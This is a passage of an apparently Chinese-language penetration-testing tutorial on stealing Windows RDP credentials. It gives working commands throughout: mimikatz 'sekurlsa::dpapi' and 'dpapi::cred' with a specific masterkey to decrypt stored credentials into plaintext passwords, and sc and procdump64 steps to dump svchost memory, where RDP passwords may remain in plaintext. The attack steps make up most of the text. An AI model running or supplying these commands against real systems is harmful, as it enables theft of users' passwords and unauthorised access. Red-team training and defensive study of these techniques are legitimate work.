   
也可以直接cmd下执行命令  
  
  
   
mimikatz.exe "privilege::debug" "sekurlsa::dpapi"  
  
  
Windows11下执行未能测试成功。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtYViabdV0xCvGbHPviayiaaw0LsVA2636EibT36pNgptQicErYjf5fAMjSOw/640?wx_fmt=png "")  
  
  
  
  
正确的图如下：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtXEwXdcTlU6grYNs7lib8DvOlKTozsSGhTicOqwrnRr6dicfiazic5bCEzYw/640?wx_fmt=png "")  
  
  
  
  
3.获取明文密码  
  
  
mimikatz.exe "dpapi::cred /in:C:\Users\3650\AppData\Local\Microsoft\Credentials\4D8F543ACD10B143849414A5085FE4E6 /masterkey:53c01b9679dc0e55b91584781fe13eb1c5faa2694fc693f98838fedd74d3ad371754b9d9d841769882c8e14c965e4ae40a45dce88101cf5831fc4d694cc38e81"  
  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtuhVg0HahCSjjf4K4GRzaJ38ibJicOXbvObE1mmKNLnlcbJQstp66iaJ3w/640?wx_fmt=png "")  
  
  
### 1.2.3从 svchost 中获取 RDP 连接凭据      
  
  
svchost.exe 是 Windows 中用于运行多个服务的通用主机进程，对系统正常运行至关重要。当用户通过 RDP 远程桌面连接并进行身份验证时，相关服务由 svchost.exe 托管。由于 Windows 身份验证机制的原因，RDP 凭据可能以纯文本形式短暂存在于 svchost.exe 的内存中，这使得通过内存转储技术理论上可以提取这些凭据。  
  
  
1.  
查询终端服务  
  
  
sc queryex termservice  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtdicEaicuJmkIKWHglKib1MTQApF1H4qkdmmwWY96funftEl44LJ3Ocsgg/640?wx_fmt=png "")  
  
  
  
      
  
  
2.内存导出  
  
  
通过 procdump.exe 将 PID 进程内存转储为 .dmp  
  
  
procdump64.exe -ma PID -accepteula C:\Users\Administrator\Desktop  
### 1.2.4从已存在的 RDP 连接中导出      
  
  